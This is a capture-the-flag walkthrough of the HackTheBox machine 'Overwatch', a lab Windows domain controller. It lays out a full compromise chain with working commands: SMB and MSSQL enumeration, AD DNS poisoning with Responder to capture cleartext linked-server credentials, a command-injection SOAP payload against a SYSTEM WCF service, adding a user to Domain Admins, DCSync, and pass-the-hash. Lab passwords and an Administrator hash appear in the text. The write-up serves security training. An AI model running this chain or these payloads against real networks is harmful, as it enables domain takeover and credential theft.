




# Overwatch — HackTheBox Walkthrough

Overwatch is a medium-difficulty Windows Active Directory box that rewards patient enumeration and creative pivoting. The path to Domain Admin runs through an unusual combination of MSSQL linked server abuse, rogue DNS poisoning to capture cleartext credentials, and a PowerShell injection buried inside a .NET WCF service running as SYSTEM.

---

## Overview

The attack chain looks like this: decompile a .NET monitoring app from an SMB share → use hardcoded MSSQL credentials to discover a linked server → poison AD DNS to redirect that linked server to our machine and capture cleartext SQL credentials → WinRM in as the captured user → exploit a PowerShell injection in the local WCF service → add ourselves to Domain Admins → DCSync. Each step is gated behind the previous one, which makes this box feel like a proper engagement simulation.

---

<div id="protected-marker"></div>

## Reconnaissance

### Port Scan

Starting with a standard nmap scan to map the attack surface:




Classic Domain Controller profile — DNS, Kerberos, LDAP, SMB with signing required. The standout is **MSSQL on port 6520** instead of the default 1433. Non-standard port suggests `SQLEXPRESS` and means automated scanners might miss it. WinRM on 5985 is also interesting — if we can find credentials for a user in Remote Management Users, that's our foothold.

The hostname resolves to `S200401.overwatch.htb`, and LDAP enumeration confirms this is the DC for `overwatch.htb`. I added both to `/etc/hosts`.

### SMB Enumeration

Anonymous/guest access is often the first thing to check on Windows boxes before diving into authenticated paths:

```bash
nxc smb <TARGET> -u 'guest' -p '' --shares
```



Guest access is enabled, and `software$` is readable. This is unusual — a share named `software$` on a DC often contains deployment packages or utilities. Let's see what's inside:

```bash
smbclient //<TARGET>/software$ -U 'guest' -N
smb: \> ls
  Monitoring/
smb: \> cd Monitoring
smb: \Monitoring\> ls
  overwatch.exe
```

I pulled down `overwatch.exe` for analysis.

### Reverse Engineering the WCF Service

`overwatch.exe` is a .NET 4.7.2 assembly, so decompiling with [dnSpy](https://github.com/dnSpy/dnSpy) gives us near-source-quality code. Two things jump out immediately.

**Hardcoded MSSQL credentials:**

```csharp
string connectionString = "Server=localhost;Database=SecurityLogs;User Id=sqlsvc;Password=TI0LKcfHzZw1Vv;";
```

**Dangerous `KillProcess` implementation:**

```csharp
public string KillProcess(string processName)
{
    string command = "Stop-Process -Name " + processName + " -Force";
    // executes via PowerShell runspace
    ...
    return result;
}
```

Unsanitized string concatenation feeding directly into a PowerShell command. If this service is running as a privileged account, that's code execution. I also spotted a `LogEvent()` method with SQL injection potential and `CheckEdgeHistory()` that polls Edge browser history every 30 seconds — suggesting there may be simulated user activity on the box.

The service endpoint is `http://overwatch.htb:8000/MonitorService` — but port 8000 isn't exposed externally. We'll need a foothold first to reach it locally.

### MSSQL Enumeration

With the `sqlsvc` credentials, let's see what we can do in SQL Server. I connected using Windows authentication (note: the `sqlsvc` account is a domain account, not a SQL login):

```bash
impacket-mssqlclient 'overwatch.htb/sqlsvc:TI0LKcfHzZw1Vv@<TARGET>' -port 6520 -windows-auth
```

Basic enumeration reveals we're `dbo` on the `overwatch` database but not sysadmin. The usual escalation paths are all blocked:

```sql
-- xp_cmdshell
EXEC xp_cmdshell 'whoami';
-- Msg 15281: SQL Server blocked access to procedure 'sys.xp_cmdshell'

-- sp_OACreate
EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT;
-- Msg 15281: blocked

-- No impersonation targets
SELECT name FROM sys.server_principals WHERE name != 'sa';
-- Only sqlsvc and BUILTIN\Users
```

Dead ends, but one thing stands out in the linked server list:

```sql
SELECT name, data_source FROM sys.servers;
-- SQL07    SQL07
```

A linked server named `SQL07` pointing at hostname `SQL07` — with no domain suffix. That hostname doesn't exist in DNS. This is interesting.

### NTLM Coercion via xp_dirtree (Dead End)

Before the DNS angle clicked, I tried the classic NTLM coercion:

```sql
EXEC xp_dirtree '\\<VPN_IP>\share', 1, 1;
```

Responder captured a hash for `S200401$` — the DC's machine account. Machine account hashes are computationally infeasible to crack, and relaying a DC machine account back to its own LDAP fails due to modern Windows self-relay protection, even with `--remove-mic`. LDAPS relay also failed, likely due to channel binding enforcement. This was a dead end.

### DNS Poisoning to Capture Linked Server Credentials

Here's the clever part. The linked server `SQL07` references a hostname that doesn't exist in DNS. As an authenticated domain user, we can **add our own DNS records to Active Directory** using `krbrelayx/dnstool.py`. This is a legitimate feature of AD-integrated DNS — any authenticated user can add records by default.

The plan: add `SQL07.overwatch.htb → <VPN_IP>`, start Responder with MSSQL support, then trigger the linked server connection from within MSSQL. When SQL Server tries to connect to `SQL07`, it'll resolve to our machine.

```bash
# Add the poisoned DNS record
python3 /opt/krbrelayx/dnstool.py -u 'overwatch.htb\sqlsvc' -p 'TI0LKcfHzZw1Vv' \
  --action add --record 'SQL07.overwatch.htb' --data '<VPN_IP>' --type A \
  <TARGET>
```

Start Responder to capture the incoming connection:

```bash
sudo responder -I tun0 -v
```

Then trigger the linked server from our MSSQL session:

```sql
EXEC ('SELECT 1') AT SQL07;
```




This is why this technique is so powerful: SQL Server linked server connections using SQL authentication transmit credentials in **cleartext** over the wire. No cracking required — Responder's MSSQL honeypot captures them directly. (We used Responder for NTLM hash capture in the [Archetype](/writeups/starting-point/archetype/) Starting Point box, but here it's doing something quite different.)

---

## Foothold

### WinRM as sqlmgmt

With the captured credentials, let's verify WinRM access:

```bash
nxc winrm <TARGET> -u sqlmgmt -p 'bIhBbzMMnB82yx'
```

```
WINRM  <TARGET>  5985  S200401  [+] overwatch.htb\sqlmgmt:bIhBbzMMnB82yx (Pwn3d!)
```

BloodHound confirms `sqlmgmt` is a member of Remote Management Users. Shell time:

```bash
evil-winrm -i <TARGET> -u sqlmgmt -p 'bIhBbzMMnB82yx'
```

We're in as a standard domain user. BloodHound shows clean ACLs — no direct paths to Domain Admin, no Kerberoastable accounts, no ADCS. The escalation has to come from something local.

---

## Privilege Escalation

### WCF Service PowerShell Injection

Remember the `KillProcess` vulnerability we found in the decompiled binary? Port 8000 is only accessible locally, and now we have a local foothold. Let's confirm the service is running:

```powershell
netstat -an | findstr 8000
# TCP    0.0.0.0:8000    0.0.0.0:0    LISTENING
```

Before crafting SOAP requests, I fetched the WSDL to get the exact SOAPAction URI — this is important because the decompiled class names didn't match the actual WCF contract interface name:

```
http://overwatch.htb:8000/MonitorService?wsdl
```

The contract interface is `IMonitoringService` (not `IMonitorService` as suggested by the class names in the decompiled code). The correct SOAPAction is:

```
http://tempuri.org/IMonitoringService/KillProcess
```

Always fetch the WSDL. Decompiled names lie.

The injection works because the code does:

```powershell
Stop-Process -Name <our_input> -Force
```

If we pass `test; whoami #`, PowerShell executes:

```powershell
Stop-Process -Name test; whoami # -Force
```

The semicolon separates commands, and `#` comments out ` -Force`. Let's test with a basic SOAP request:

```bash
curl -s -X POST http://overwatch.htb:8000/MonitorService \
  -H 'Content-Type: text/xml; charset=utf-8' \
  -H 'SOAPAction: "http://tempuri.org/IMonitoringService/KillProcess"' \
  -d '<?xml version="1.0" encoding="utf-8"?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
  <s:Body>
    <KillProcess xmlns="http://tempuri.org/">
      <processName>test; whoami #</processName>
    </KillProcess>
  </s:Body>
</s:Envelope>'
```




The service runs as SYSTEM, and output comes back directly in `<KillProcessResult>`. This is sighted command execution, not blind — we can read the results of each command.

### Escalating to Domain Admin

To avoid quoting nightmares in the SOAP payload, I uploaded a base64-encoded PowerShell script via WinRM and executed it through the injection. The payload adds `sqlmgmt` to Domain Admins:

```bash
# On attacker machine — encode the command
echo -n 'net group "Domain Admins" sqlmgmt /add /domain' | iconv -t UTF-16LE | base64 -w0
```

Then execute via the injection:

```bash
curl -s -X POST http://overwatch.htb:8000/MonitorService \
  -H 'Content-Type: text/xml; charset=utf-8' \
  -H 'SOAPAction: "http://tempuri.org/IMonitoringService/KillProcess"' \
  -d '<?xml version="1.0" encoding="utf-8"?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
  <s:Body>
    <KillProcess xmlns="http://tempuri.org/">
      <processName>test; powershell -enc <BASE64_PAYLOAD> #</processName>
    </KillProcess>
  </s:Body>
</s:Envelope>'
```

With `sqlmgmt` now a Domain Admin, we can DCSync to pull the Administrator hash:

```bash
impacket-secretsdump 'overwatch.htb/sqlmgmt:bIhBbzMMnB82yx@<TARGET>' \
  -just-dc-user Administrator
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:269fa056205bbf5d47fc2c3682dbbce6:::
```

Pass the hash for a clean Administrator shell:

```bash
evil-winrm -i <TARGET> -u Administrator -H '269fa056205bbf5d47fc2c3682dbbce6'
```

We're Domain Admin. Both flags collected.

---

## Lessons Learned

**DNS poisoning for linked servers is devastatingly effective.** When a MSSQL linked server references a hostname not in DNS, any authenticated domain user can add that record to AD-integrated DNS using `krbrelayx/dnstool.py`. The server then connects to you instead, handing over credentials. The attack requires no special privileges — just domain user access. This is similar to the MSSQL-based credential capture techniques we explored in [Eighteen](/writeups/machines/eighteen/), though the mechanism here is more subtle.

**MSSQL linked servers leak cleartext SQL credentials.** Unlike NTLM authentication (which requires cracking or relaying), SQL auth over linked server connections sends passwords in the clear. Responder's MSSQL honeypot captures these without any post-processing. No wordlist, no GPU time.

**NTLM relay from a DC to itself fails.** Even with `--remove-mic`, modern Windows rejects a domain controller relaying its own machine account credentials back to its own LDAP. Don't waste time setting up relay chains if the coerced account is the DC itself — move on.

**Always fetch the WSDL.** WCF service contract interface names don't always match decompiled class names. The wrong SOAPAction will get you a SOAP fault every time. Thirty seconds fetching `?wsdl` saves hours of confusion.

**ntlmrelayx dies when backgrounded in a regular shell.** Its daemon threads exit when the parent process closes. Use `screen -dmS relay ntlmrelayx.py [args]` to keep it alive across session changes.

**The full kill chain here required chaining four distinct techniques:** SMB enumeration → .NET reverse engineering → MSSQL linked server DNS poisoning → WCF injection. No single step is exotic, but the combination is. This is what a real engagement often looks like — a series of mundane findings that compound into complete compromise.
